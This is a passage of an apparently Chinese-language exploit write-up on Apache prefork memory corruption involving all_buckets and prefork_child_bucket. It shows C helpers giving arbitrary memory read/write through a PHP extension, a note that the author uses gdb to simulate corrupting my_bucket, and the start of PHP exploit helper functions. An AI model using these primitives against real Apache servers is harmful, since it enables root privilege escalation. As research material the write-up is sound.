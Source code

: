     long read_mem(long addr)
    {
        return (unsigned long)(*((uint8_t*)(addr)));
    }
    [root@bogon php-extension]# cat write_mem.c 
    #include <stdio.h>
    #include <stdint.h>

    void write_mem(long addr,long data)
    {
        *((uint8_t*)addr) = data;
    }
    [root@bogon php-extension]# 

#### 问题

我在Apache 2.4.38 与 Apache
2.4.25中，测试发现all\_buckets的地址与共享内存的地址之间的差值，远远不是一个4字节能表示的（bucket索引4字节）。所以在我的演示中，需要通过gdb来修改

    my_bucket = &all_buckets[bucket];//prefork.c:685

my\_bucket的值，来模拟修改bucket，使其指向恶意的prefork\_child\_bucket结构。

#### PHP利用代码

    <?php

    function read_mem_dword($addr)
    {
        $ret = 0;
        for($j = 0;$j<4;$j++){
            $ret += read_mem($addr+$j) * pow(256,$j);
        }
        return $ret;
    }

    function read_mem_qword($addr)
    {
        $ret = 0;
        for($j = 0;$j<8;$j++){
            $ret += read_mem($addr+$j) * pow(256,$j);
        }
        return $ret;
    }

    function read_mem_byte($addr)
    {
        return read_mem($addr);
    }

    function write_mem_qword($addr,$data)
    {
        for($j=0;$j<8;$j++){
            $b = (0xff&(($data)>>($j*8)));
            write_mem($addr+$j,$b);
        }
    }
